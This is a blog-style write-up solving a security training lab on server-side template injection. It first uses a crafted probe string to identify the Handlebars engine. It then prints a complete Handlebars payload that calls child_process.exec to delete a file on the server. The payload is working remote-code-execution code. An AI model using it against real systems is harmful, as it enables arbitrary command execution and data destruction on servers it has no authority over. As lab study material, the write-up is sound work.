 ```yaml
---
layout: post
title:  "Server-side template injection in an unknown language with a documented exploit"
date:   2024-12-03 10:20:54 +0530
categories: [BSCP, SSTI]
---
```


## Objective

This lab is vulnerable to server-side template injection. To solve the lab, identify the template engine and find a documented exploit online that you can use to execute arbitrary code, then delete the morale.txt file from Carlos's home directory. 

## Solution 

First things first is to identify the template engine and for that, whenever I click on the product it says `Out of stock` through a `message` parameter 

Now let's just pass the following expressions `${{<%[%'"}}%\.` through `message` which will actually crash and show us the error response.. 

Go through it, it shows it utilises `handlebars` as a template engine 

![]({{ site.baseurl }}/assets/images/ssti/ssti-13.png)

In order to exploit the handlebars, we have public exploit through hacktricks but slightly change the execution from `whoami` to `rm /home/carlos/morale.txt` 

```js
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').exec('rm /home/carlos/morale.txt');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

Now we can just urlencode the above payload through burp decoder and send it as value for `message` parameter.. Payload executes and delete the file called `morale.txt` inside `/home/carlos` as mentioned in the lab objective and that solves the lab 

![]({{ site.baseurl }}/assets/images/ssti/ssti-14.png)